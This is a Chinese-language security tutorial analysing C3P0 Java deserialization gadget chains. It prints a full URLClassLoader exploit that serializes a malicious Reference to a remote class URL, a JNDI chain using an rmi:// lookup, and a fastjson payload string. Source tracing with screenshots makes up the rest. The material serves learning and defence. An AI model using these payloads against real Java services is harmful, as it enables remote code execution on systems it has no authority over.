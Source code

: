 # 前言

C3P0是一个开源的JDBC连接池，它实现了数据源和JNDI绑定，支持JDBC3规范和JDBC2的标准扩展。使用它的开源项目有Hibernate、Spring等。之前有接触到过，但是没有深入了解，像之前学二次反序列化时，`WrapperConnectionPoolDataSource`就是C3P0的

# 环境搭建

```java
<dependency>
    <groupId>com.mchange</groupId>
    <artifactId>c3p0</artifactId>
    <version>0.9.5.2</version>
</dependency>
```

# URLClassLoader

初学者必学的一条链，先给出完整exp，然后一步步分析

```java
package org.example;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class urlClassLoader {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException, IOException {
        PoolBackedDataSourceBase a = new PoolBackedDataSourceBase(false);
        Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        //此类是PoolBackedDataSourceBase抽象类的实现
        Field f1 = clazz.getDeclaredField("connectionPoolDataSource");
        f1.setAccessible(true);
        f1.set(a,new evil());

        ObjectOutputStream ser = new ObjectOutputStream(new FileOutputStream(new File("a.bin")));
        ser.writeObject(a);
        ser.close();
        ObjectInputStream unser = new ObjectInputStream(new FileInputStream("a.bin"));
        unser.readObject();
        unser.close();
    }
    public static class evil implements ConnectionPoolDataSource, Referenceable {
        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

        @Override
        public Reference getReference() throws NamingException {
            return new Reference("evilref","evilref","http://127.0.0.1:1099/");
        }
    }
}
```

先看序列化的过程，进入`PoolBackedDataSourceBase`这个类看看`writeObject`
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415131401692-1772907884.png#id=uMzbT&originHeight=676&originWidth=1582&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
该方法会尝试将当前对象的`connectionPoolDataSource`属性进行序列化，如果不能序列化便会在catch块中对`connectionPoolDataSource`属性用`ReferenceIndirector.indirectForm`方法处理后再进行序列化操作，我们跟进`ReferenceIndirector.indirectForm`方法。
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415131538874-102056684.png#id=TTQAs&originHeight=255&originWidth=1281&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
此方法会调用`connectionPoolDataSource`属性的`getReference`方法，并用返回结果作为参数实例化一个`ReferenceSerialized`对象，然后将`ReferenceSerialized`对象返回，`ReferenceSerialized`被序列化
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415131630742-188469288.png#height=331&id=E19UP&originHeight=431&originWidth=894&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=686.7142944335938)
这里可以看出reference是可以被我们控制的，接下来看反序列化的操作，`readShort`获取版本号为1，往下走,
首先获取了反序列化后的对象，然后再判断这个对象`o`是否实现了`IndirectlySerialized`接口，在`ReferenceIndirector`的内部类`ReferenceSerialized`中实现了这个接口，所以通过判断，调用了o的`getObject`方法
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415131803038-1559194198.png#id=zaCwg&originHeight=839&originWidth=1597&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
跟进`getObject`方法，这里居然还有lookup，但是我们这条链的目标不是它，而且这里的lookup很鸡肋
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415132146830-1499307345.png#id=MwKwv&originHeight=763&originWidth=1474&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
跟进`ReferenceableUtils.referenceToObject`，由于`ref`是在序列化的时候可以控制的参数，那么`fClassName`自然也是可以控制的属性，下面就调用了URLClassLoader实例化我们的远程恶意类
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415132341981-676665335.png#id=UAj4k&originHeight=996&originWidth=1626&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

# hex base/WrapperConnectionPoolDataSource

如果不出网，而且是fastjson或jackson的情况，可以用这个Gadget，这条链以前见过，就是学二次反序列化时的C3P0那条链，所以这里就不再讲，可以去看看我讲二次反序列化的那篇文章

# JNDI

同样也是在fastjson，jackson环境中可用

```java
package org.example;

import com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource;

import java.beans.PropertyVetoException;
import java.sql.SQLException;

public class JNDI {
    public static void main(String[] args) throws PropertyVetoException, SQLException {
        JndiRefConnectionPoolDataSource exp = new JndiRefConnectionPoolDataSource();
        exp.setJndiName("rmi://127.0.0.1:1099/evilref");
        exp.setLoginTimeout(1);
    }
}


fastjson exp:
String poc = "{\"object\":[\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",{\"jndiName\":\"rmi://localhost:8088/Exploit\", \"loginTimeout\":0}]}"
```

首先`JndiRefConnectionPoolDataSource`类中有属性`jndiname`及其`setter`方法，其`setter`方法会调用内部的`JndiRefForwardingDataSource`对象的`setJndiName`方法，改变`JndiRefForwardingDataSource#jndiname`的值，漏洞点在`setLoginTimeout`处，我们追踪进去，经过几次`setLoginTimeout`来到这
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415133744949-1677860325.png#id=yFxWZ&originHeight=521&originWidth=1313&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
进入`dereference`，获取`jndiName`，然后调用了lookup，达到jndi的效果
![img](https://img2024.cnblogs.com/blog/2746479/202404/2746479-20240415133852885-740471205.png#id=eSoG0&originHeight=715&originWidth=1513&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)